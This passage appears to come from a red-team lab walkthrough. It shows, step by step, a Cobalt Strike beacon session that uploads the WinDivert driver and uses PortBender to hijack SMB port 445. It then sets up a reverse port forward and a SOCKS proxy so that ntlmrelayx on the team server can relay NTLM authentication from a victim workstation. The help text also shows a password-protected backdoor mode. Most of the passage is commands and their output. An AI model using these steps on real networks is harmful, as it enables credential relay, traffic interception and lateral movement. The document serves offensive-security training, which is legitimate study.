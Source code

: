 ```
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> pwd
[*] Current directory is C:\Windows\system32\drivers

beacon> upload C:\Tools\PortBender\WinDivert64.sys
```

Next, load `PortBender.cna` from `C:\Tools\PortBender` - this adds a new `PortBender` command to the console.

```
beacon> help PortBender
Redirect Usage: PortBender redirect FakeDstPort RedirectedPort
Backdoor Usage: PortBender backdoor FakeDstPort RedirectedPort Password
Examples:
PortBender redirect 445 8445
PortBender backdoor 443 3389 praetorian.antihacker
```

Execute PortBender to redirect traffic from 445 to port 8445.

&#x20; This pretty much breaks any SMB service on the machine.

```
beacon> PortBender redirect 445 8445
[+] Launching PortBender module using reflective DLL injection
Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP
```

Next, create a reverse port forward that will then relay the traffic from port 8445 to port 445 on the Team Server (where ntlmrelayx will be waiting).

```
beacon> rportfwd 8445 127.0.0.1 445
[+] started reverse port forward on 8445 to 127.0.0.1:445
```

We also need the SOCKS proxy so that ntlmrelayx can send responses to the target machine.

```
beacon> socks 1080
[+] started SOCKS4a server on: 1080
```

On WKSTN-2, attempt to access WKSTN-1 over SMB.

```
H:\>hostname
wkstn-2

H:\>whoami
dev\nlamb

H:\>dir \\10.10.17.231\blah
```
